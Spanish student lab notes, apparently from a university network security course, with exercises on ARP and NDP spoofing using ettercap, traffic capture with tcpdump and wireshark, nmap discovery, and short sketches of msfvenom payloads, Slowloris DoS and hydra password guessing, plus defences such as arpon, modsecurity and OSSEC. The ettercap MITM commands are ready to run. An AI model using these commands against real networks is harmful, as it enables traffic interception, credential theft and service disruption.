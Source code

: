 # A)
Install ettercap
```bash
apt install ettercap-text-only
```
Funcionamiento:
```bash
ettercap [options][target1][target2]

ejemplo:
ettercap /10.11.48.56//
```
Con ettercap realizaremos ARP spoofing
# B)
Captura de trafico, usando ettercap + wireshark para snifear y visualizar data (pdf, gif, ...)
## Solución
### Spoofing
Comando básico para realizar spoofing:
```bash
ettercap -T -q -i ens33 -M arp:remote //10.11.48.142/ //10.11.48.1/ -w bisbi.pcap
```
- -T, text mode
- -q, filtra lo que se muestra por pantalla.
- -i, establece la interfaz a usar.
- -M, man in de midel.
	- arp:remote, uso del MITM arp en remoto.
		- target
		- gateway

Guardar los paquetes recibidos:
```shell
//captura
tcpdump -i ens33 -s 65535 -w tcp_bisbi.pcap

//nuestro compañero busca cosas

//en otra maquina
scp lsi@10.11.48.143:/home/lsi/tcp_bisbi.pcap .
```
Abrimos en wireshark buscamos el png y en File -> Export object lo guardamos y luego abrimos.
# C)
Para obtener la mac del segmento usamos:
```
nmap -sP 10.11.48.0/23
```
- -sP, host discovery sobre un segmento mediante syng, ack y cmp 

respuestas con formato:
```
Nmap scan report for 10.11.49.17
Host is up (0.00040s latency).
MAC Address: 00:50:56:97:F6:06 (VMware)
```
# D) x
Para obtener las ipv6 usamos:
```
ping6 -c 2 -I ens33 2002:a0b::1
ip -6 neigh
```
// todo lo de ipv6 sin fe....
# E) x
Capturar todo el trafico de alguna de nuestras interfaces, ettercap y tcpdump

Para obtener nuestro trafico tcp:
```shell
//tomamos el trafico tcp
tcpdump -i ens33 -s 65535 -w my.pcap
//recuperamos para usar wireshark
scp lsi@10.11.48.143:/home/lsi/my.pcap .
```
Usamos wireshark para analizar.
# F) 
Editar en ettercap el valor de remote browser:
```
// /etc/etter.conf
remote_browser = w3m .....
```
Lanzamiento del spofing sobre la maquina con el remote.
```shell
ettercap -T -i ens33 -P remote_browser -q -M arp:remote //10.11.48.142/ //10.11.48.1/
```
# G) x
Generación de peiloads y envió al atacado, la segunda parte es ingeniería social para que parezca natural.
Para creación:
- metasploit + msfvenom (neterpreter/shell/bash)
Social:
- filto ettercap
- ingeniería social

# H)x
MITM ipv6 ettercap + ndp
```
ettercap -T -i 6to4 -Q -M ndp:remote //2002:a0b:308e::1/ //2002:a0b:308e::1/
```
# I)x
arpon(defensa) vs ettercap + arp poisoning(ataque)
- registros del ataque
- mostrar que el arp se mantiene

cong in /etc/arpon.conf
logs in /var/log/arpon.log

# J)x
- host dicovery
- port scaning
- os fingerprinting

# K)x
conexiones y ancho de banda consumido
- iftop
- tcptrack
- nethogs

# M)x
Diferencia teórica entre DOS directo y reflexivo, como hacerlo con packit (**NIVEL TEÓRICO NO PRACTICO**)
# N)x
ataque DOS web
- victima -> server apache
- atacante
	- sloworis
	- slowhttprest

# O)x
defender apache
- modsecurity (dentro de apache)
- modevaise -0,25 (NO USAR)

# P)x
Averiguar de la usc
- server dns/transferencia de zona
- gestores de contenido
- servidor de correo/estafetas

# R)x
password guesing
- medusa
- hydra

Se necesita un fichero de users y uno de contraseñas:
- un usuario lsi.
- diez contraseñas siendo la ultima la correcta.
# S)x
OSSEC (IPS)
-  info 
- funcionamiento
- baneo y debaneo de ips (mediante osec conf)
